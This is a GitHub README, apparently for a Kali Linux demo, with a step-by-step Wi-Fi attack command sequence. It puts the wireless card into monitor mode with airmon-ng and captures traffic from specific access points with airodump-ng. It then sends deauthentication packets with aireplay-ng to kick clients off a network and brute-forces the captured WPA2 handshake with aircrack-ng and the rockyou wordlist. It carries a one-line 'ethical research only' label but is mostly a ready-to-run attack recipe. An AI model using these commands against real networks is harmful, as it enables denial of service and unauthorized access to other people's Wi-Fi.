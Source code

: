 # WiFi-DOS-Kali
Demo of Wi-Fi DoS attacks via Kali Linux (Aircrack-ng, Aireplay-ng). Covers deauth attacks, brute-force cracking, and defenses. Includes PPT on attack types, tools, and commands. For ethical research only.



Demonstration
# ifconfig 
# airmon-ng start wlan0
# airmon-ng check kill
# iwconfig
# airodump-ng -i wlan0mon
# airodump-ng --bssid 8E:F5:A3:77:D6:DB -c 3  -- wlan0
# airodump-ng --bssid A8:32:9A:00:CE:96 -c 11 -w /root/Desktop/wpa2 -- wlan0mon


//this will kickout the clients
# aireplay-ng -0 20 -a A8:32:9A:00:CE:96 -c 08:4A:CF:7D:47:14 wlan0mon
//  if you want to Brute Force Attack
# aircrack-ng -a2 -b 78:1D:BA:93:1F:9A -w /root/Desktop/rockyou.txt
# aircrack-ng -a2 -b A8:32:9A:00:66:E8 -w /media/root/CAF04BE4F04BD57B/test/word.txt /media/root/CAF04BE4F04BD57B/test/Digicom-01.cap


// to stop airmon-ng
# airmon-ng stop wlan0mon
# service network-manager restart
![image](https://github.com/user-attachments/assets/0213d5f8-8f9a-4211-83f2-dd2c16c8db3e)
